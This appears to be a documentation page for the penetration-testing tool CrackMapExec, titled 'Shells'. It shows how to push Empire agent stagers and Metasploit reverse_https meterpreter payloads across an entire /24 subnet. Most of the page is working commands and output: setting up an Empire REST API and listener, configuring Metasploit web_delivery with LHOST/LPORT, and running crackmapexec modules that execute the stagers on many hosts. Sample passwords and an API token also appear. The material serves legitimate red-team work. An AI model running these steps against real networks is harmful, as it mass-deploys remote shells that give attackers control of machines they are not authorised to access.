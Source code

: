 # Shells

We all love shells and that's why CME makes it as easy as possible to get them! There really is something magical about shelling a /24

## Empire Agent

{% hint style="info" %}
Use the new Empire in Python3 [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

We can use the `empire_exec` module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

* First setup the rest API:

```
#~ python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/byt3bl33d3r/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* Second setup a listener:

```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

The username and password that CME uses to authenticate to Empire's RESTful API are stored in the cme.conf file located at \~/.cme/cme.conf:

```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* Then just run the `empire_exec` module and specify the listener name:

```
#~ crackmapexec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```

![image](https://user-images.githubusercontent.com/5891788/80817181-3dd4bf80-8bd1-11ea-8922-d764eda7fafc.png)

## Meterpreter

We can use the `metinject` module launch a meterpreter using [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` script.

On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```

The SRVHOST and SRVPORT variables are used for running the webserver to host the script

```
set SRVHOST 10.211.55
set SRVPORT 8443
```

The `target` variable determines what type of script we're using. `2` is for PowerShell

```
set target 2
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload

```
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

Run the exploit

```
run -j
```

Once run, the web\_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* Then just run the `met_inject` module and specify the LHOST and LPORT values:

```
#~ crackmapexec 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```

